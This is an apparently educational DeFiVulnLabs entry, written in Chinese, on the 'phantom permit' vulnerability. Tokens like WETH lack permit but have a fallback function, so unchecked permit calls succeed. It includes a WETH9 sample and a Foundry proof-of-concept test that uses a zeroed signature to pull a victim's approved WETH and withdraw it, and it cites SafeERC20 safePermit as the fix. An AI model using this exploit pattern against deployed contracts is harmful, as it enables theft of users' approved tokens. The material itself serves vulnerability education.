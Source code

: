 [phantom-permit.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/phantom-permit.sol)

# 幻像函数-允许函数

**名称：** 幻象功能-允许功能

**描述：** 幻像函数：接受所有未实际未定义的函数的任何调用，而不进行恢复。 key: 1.不支持EIP-2612许可的Token。 2.Token具有后备功能。 例如：WETH。

**解决措施：**

使用 SafeERC20 的 safePermit - 恢复无效签名。 https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/utils/SafeERC20.sol#LL89C14-L89C24

**参考：**

https://twitter.com/1nf0s3cpt/status/1671347058568237057

https://media.dedaub.com/phantom-functions-and-the-billion-dollar-no-op-c56f062ae49f

**WETH9 合约样例:**

```jsx
contract WETH9 {
    string public name = "Wrapped Ether";
    string public symbol = "WETH";
    uint8 public decimals = 18;

    event Approval(address indexed src, address indexed guy, uint wad);
    event Transfer(address indexed src, address indexed dst, uint wad);
    event Deposit(address indexed dst, uint wad);
    event Withdrawal(address indexed src, uint wad);

    mapping(address => uint) public balanceOf;
    mapping(address => mapping(address => uint)) public allowance;

    fallback() external payable {
        deposit();
    }

    receive() external payable {}

    function deposit() public payable {
        balanceOf[msg.sender] += msg.value;
        emit Deposit(msg.sender, msg.value);
    }
}
```

***\*测试方法:\****

仿真测试 --contracts src/test/**phantom-permit.sol** -vvvv

```jsx
// Function to test phantom permit vulnerability
    function testVulnPhantomPermit() public {
        // Alice's address is set as the first address in the virtual machine
        address alice = vm.addr(1);
        
        // Transfers 10 Ether to Alice's account
        vm.deal(address(alice), 10 ether);

        // Initiates a "prank" on Alice's account in the virtual machine
        // It's unclear what this prank does without further context
        vm.startPrank(alice);
        
        // Deposits 10 Ether into WETH9Contract from the current contract
        WETH9Contract.deposit{value: 10 ether}();
        
        // Approves the Vulnerable Permit Contract to spend the maximum possible amount of tokens (WETH in this case) on behalf of this contract
        WETH9Contract.approve(address(VulnPermitContract), type(uint256).max);
        
        // Stops the prank on Alice's account
        vm.stopPrank();
        
        // Logs the balance of this contract in the WETH9Contract
        console.log(
            "start WETH balanceOf this",
            WETH9Contract.balanceOf(address(this))
        );

        // Makes a deposit in the Vulnerable Permit Contract on behalf of Alice using a permit
        // The parameters for v, r, s (27, 0x0, 0x0 here) are part of the ECDSA signature scheme for the permit
        VulnPermitContract.depositWithPermit(
            address(alice),
            1000,
            27,
            0x0,
            0x0
        );
        
        // Gets the balance of the Vulnerable Permit Contract in WETH and logs it
        uint wbal = WETH9Contract.balanceOf(address(VulnPermitContract));
        console.log("WETH balanceOf VulnPermitContract", wbal);

        // Withdraws 1000 tokens from the Vulnerable Permit Contract
        VulnPermitContract.withdraw(1000);

        // Gets the balance of this contract in WETH after the withdrawal and logs it
        wbal = WETH9Contract.balanceOf(address(this));
        console.log("WETH9Contract balanceOf this", wbal);
    }
```

**红色框：通过幻像函数排干池中的水。**

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fccbf77e6-c6ef-4cdd-8065-60cca1e2c4c1%2FUntitled.png?table=block&id=ce845a77-2d19-4e97-9124-e3fc0e8a2525&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
